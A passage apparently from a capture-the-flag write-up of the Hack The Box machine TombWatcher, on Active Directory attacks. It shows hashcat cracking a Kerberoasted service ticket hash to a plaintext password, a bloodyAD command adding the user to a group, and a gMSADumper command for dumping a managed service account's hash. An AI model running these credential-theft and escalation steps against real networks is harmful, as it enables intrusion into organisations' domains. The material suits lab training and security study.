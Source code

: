 ```sh
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 720 MB

Dictionary cache hit:
* Filename..: /nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb/Alfred*$81fe7b799f1d2dbb4f1bd077f510f8eb$8fcf<snip>0eb8d64750f67148695d7b0b39d:basketball

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*Alfred$TOMBWATCHER.HTB$tombwatcher.htb...b0b39d
Time.Started.....: Sat Jun  7 20:24:04 2025 (1 sec)
Time.Estimated...: Sat Jun  7 20:24:05 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/nix/store/khjvbjjz3yazpgln3qb9nykyf4ypahcm-wordlists-collection/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   166.7 MH/s (5.86ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2686976/14344384 (18.73%)
Rejected.........: 0/2686976 (0.00%)
Restore.Point....: 0/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> xamuraix

Started: Sat Jun  7 20:24:03 2025
Stopped: Sat Jun  7 20:24:05 2025
```


With a password, we can continue our exploits through AD

I did try to do this with net rpc, but ultimately needed to use bloodyAD to get alfred added properly.

```sh
root@ab98bfeade9f:/# bloodyAD --host tombwatcher.htb -d tombwatcher -u alfred -p basketball add groupMember infrastructure alfred
[+] alfred added to infrastructure

Then dump the hash for ansible_dev.


```python
!python gMSADumper/gMSADumper.py -u alfred -p basketball -d tombwatcher.htb -d $target
```

